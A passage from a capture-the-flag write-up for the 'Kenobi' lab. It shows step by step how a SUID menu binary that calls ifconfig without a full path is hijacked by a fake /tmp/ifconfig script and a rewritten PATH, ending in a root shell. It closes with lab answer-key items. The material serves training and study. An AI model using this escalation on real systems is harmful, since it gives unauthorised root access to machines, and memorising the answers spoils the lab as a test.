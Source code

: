 - The commands `curl`, `uname` and `ifconfig` are just executed with the word and not the full path, we could create a malicious file and alter the execution path to obtain the reverse shell as root

- PATH ==> tells all the variables to look for commands from first to last

```bash
# contents of PATH variable
kenobi@kenobi:/tmp$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

# now lets create a file and obatain root shell
kenobi@kenobi:/tmp$ vi ifconfig
# adding the exection permission
kenobi@kenobi:/tmp$ chmod +x ifconfig
# contents of ifconfig
kenobi@kenobi:/tmp$ cat ifconfig 
#!/bin/bash
/bin/sh

# add the path of the created ifconfig to the PATH variable
kenobi@kenobi:/tmp$ export PATH=$PATH:/tmp  # this wont work as we expected since the altered ifconfig's location is at the last, bash finds the first matching path and executes it

# add the altred ifconfig's path to the first so it will be interuppted first
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH

# execute the application to obtain reverse shell as root
kenobi@kenobi:/tmp$ /usr/bin/menu                                        

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

- Machine owned with `Suid and Path manupulation`

## Answers

### Deploy the Vulnerable Machine

- Scan the machine with nmap, how many ports are open?
`7`

### Enumerating Samba for shares

- Using the nmap command above, how many shares have been found?
`3`
